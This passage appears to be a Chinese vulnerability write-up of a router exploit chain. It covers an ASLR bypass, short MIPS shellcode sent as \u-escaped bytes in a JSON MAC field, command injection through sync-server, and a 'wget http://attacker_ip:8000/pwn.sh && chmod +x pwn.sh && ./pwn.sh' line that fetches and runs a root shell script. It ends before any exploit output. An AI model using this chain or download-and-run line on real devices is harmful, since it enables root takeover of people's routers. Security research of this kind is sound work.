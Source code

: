 
## 漏洞攻击

首先需要绕过地址空间随机化 ASLR，由于保存的寄存器不会被 payload 数据覆盖，而是被指向受控数据的指针覆盖。这意味着当\\$ra 从堆栈中恢复时，它将自动指向被控数据，由于堆段权限是 RWX，因此可以直接执行代码，无需任何其他方式即可绕过 ASLR。从动态分析来看，$ra 是从指向 mac 字段的指针还原的，这意味着可以将 shellcode 放入其中以查看其执行情况。

下一步是完成溢出，由于 JSON 字符串中发送的 MAC 地址必须通过 JSON 语法和格式检查器过滤，因此 payload 的每个字符限制在 \[0x00-0xff\] 范围的一小部分，但 tdpServer 将 mac 地址的大小限制为 17 个字节，这非常短，因为 MIPS 指令的长度为 4 个字节。

通过研究 JSON 解析器，可以发现像\\u00xx 这样的 unicode 编码可以被用来写入共享内存，范围包括\[0x01-0xff\]中的字节，能够有效并扩大了发送到共享内存中数据，剩下的唯一限制是避免空字节。

sync-server 在能够在已知地址中引入了 system（），原因是二进制文件是在没有 PIE 的情况下编译的，所以操作码不会包含任何空字节：

```bash
0C 10 07 14 jal system
```

因此，mac 地址可以以“\\u000c\\u0010\\u0007\\u0014”开头。要运行的命令的地址应放在 \\$a 0 寄存器中（由于 MIPS 中的推测调用，该地址位于 jal 系统之后）。再次触发函数发生错误时，寄存器\\$s 0 到\\$s 7 从堆栈恢复，并且堆栈中填满了指向 ip 和 mac 的指针。寄存器\\$s0 到\\$s7 将包含指向字符串的指针，这正是本文所需要的，\\$s2 寄存器指向一个 ip 值—说明可以使用不包含空字节的操作码将 \\$s 2 移动到 \\$a 0：

```bash
02 40 20 25 move $a0,$s2
```

之后，$a0 表示完全被控数据，所以使用的最终 shellcode 是“\\u000c\\u0010\\u0007\\u0014\\u0002\\u0040\\u0020\\u0025”，这样就可以通过同步服务器 sync-server 执行命令，并且可以启动任意命令。实际上，每 50 个 mac 地址中的每一个地址上都会附加一个唯一 ID，因为 tdpServer 有一种重复数据删除例程，有了这个唯一的 ID，保证所有数据都是唯一的，并推送到共享内存。所以，“cmd;num\_id”被用作 ip 值，原因是为了避免消除重复数据。

## 在 TDDP 的帮助下获取远程 SHELL

有漏洞的函数称为“async”，据观察，它每 80 秒调用一次，所以攻击方必须发送数据，然后等待 80 秒，因为没有进行任何方法来加快这一进程。最后一个问题仍然存在：如何获得远程 shell？由于只能启动一个命令，而 sync-server 会因为我们的 shellcode 而崩溃。命令的长度很短，如果使用 id，则为 12 个字节，如果为“cmd;num\_id”，最多 15 个字节。由于没有 telnetd 或 netcat，此时最好的方法是启动 tddp 二进制文件，这是一个默认未启动的调试守护程序，在[https://mjg59.dreamwidth.org/51672.html被提起过。](https://mjg59.dreamwidth.org/51672.html%E8%A2%AB%E6%8F%90%E8%B5%B7%E8%BF%87%E3%80%82)

将脚本和漏洞利用调整，并在目标设备上执行带有 Lua 绑定 shell 的命令注入。因为攻击受到注入命令大小的限制，但有足够的空间来下载 shell 脚本并执行它：

```bash
wget http://attacker_ip:8000/pwn.sh && chmod +x pwn.sh && ./pwn.sh
```

最后，攻击方就会得到一个 shell。由于所有守护程序 daemons 都以 root 身份运行（tdpServer、sync-server 和 tddp），所以攻击方可以在设备上获得最高级别的权限。

## 漏洞利用

将漏洞利用代码拆分为下面 4 个文件：

-   exploit.sh：HTTP 服务器的实例化、两个漏洞的编排等。
-   tdpwn.py：众多协会
-   tdp.py：命令注入
-   pwn.sh：需要在路由器上执行的命令（在 Lua 绑定 shell）

将 IP 地址设置为 192.168.0.100 后，运行 exploit.sh 等待足够的时间，会得到一个 shell：
